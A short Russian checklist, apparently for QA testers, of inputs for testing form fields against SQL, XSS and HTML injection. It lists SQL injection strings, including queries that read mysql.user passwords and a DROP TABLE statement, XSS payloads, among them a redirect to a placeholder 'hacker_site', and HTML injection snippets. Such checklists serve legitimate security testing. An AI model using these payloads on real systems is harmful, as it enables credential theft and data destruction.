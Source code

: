 [Link to source](https://akkaparallel.blogspot.com/2013/06/email.html)
#cookbook

# Чек-лист проверок для полей на XSS, SQL- и HTML-инъекции

## **SQL:**
```
кавычка '
OR '1'='1'
' or '1'='1' -- '
' or '1'='1' ({ '
' or '1'='1' /* '
12345) AND 1=1--:hash
SELECT user(); или SELECT system_user();
SELECT host, user, password FROM mysql.user;
SELECT database()
DROP TABLE user;
```

## **XSS:**
```
<script>alert("xss-injection!")</script>
<script>document.getElementByID("...").disabled=true</script>
<script>window.parent.location.href='http://hacker_site';</script>
<img src=javascript:alert('xss-injection!')>
<input onclick="javascript:alert('xss-injection');">
<b onmouseover="alert('xss-injection!')">Hello</b>
```

## **HTML:**
```
</body>
<textarea />
<input></input>
<form action="http://google.com"><input type="submit"></form>
```

